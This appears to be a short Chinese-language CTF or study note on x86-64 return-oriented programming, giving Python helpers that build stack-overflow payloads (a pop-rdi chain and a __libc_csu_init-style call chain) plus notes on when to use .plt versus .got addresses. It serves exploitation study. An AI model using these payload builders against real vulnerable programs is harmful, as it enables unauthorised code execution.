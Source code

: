 ##Tips:

```Python

def gadget_arg1(func_addr, arg):
    payload = overwrite
    payload += p64(poprdiret_addr)
    payload += p64(arg)
    payload += p64(func_addr)
    payload += p64(vulnfunc_addr)
    return payload

def gadget_call(func_addr, arg1=0, arg2=0, arg3=0, init_ret1=movcall_addr, init_ret2=vulnfunc_addr):
    payload = overwrite
    payload += p64(pop5ret_addr)
    payload += p64(0)   # rbx
    payload += p64(1)   # rbp
    payload += p64(func_addr)
    payload += p64(arg3) + p64(arg2) + p64(arg1)
    payload += p64(init_ret1)    # call 
    payload += '\x00'*(7*0x8)       # pop7
    payload += p64(init_ret2)   # 最后返回到有漏洞的地方下次再次利用
    return payload
```

##注意。

###1.最后是ret左右func_addr应该是plt段的函数地址，<br>

例如.plt [puts] = 0x400500 <br>
调用的时候是rip先到0x400500(这里的指令对应jmp 0x7???????)然后跳到该函数真正地址<br>
但是如果ret 0x601018(这是got表 里面存的是真正的函数地址的值) 就会执行0x601018这个地址对应的值(转换成code)<br>

###2. call func_addr

必须是got的地址<br>
.got[read] = 0x601028<br>
调用的时候是call 0x601028(call的是真正的函数的地址 比如call 0x7ff????????)<br>
但是如果用ret 就会ret到0x601028 rip指向0x601028 明显不是真正func_addr的地址<br>

###总结

ret 后面必须是 .plt<br>
__libc_init 里用call来必须是 .got的<br>


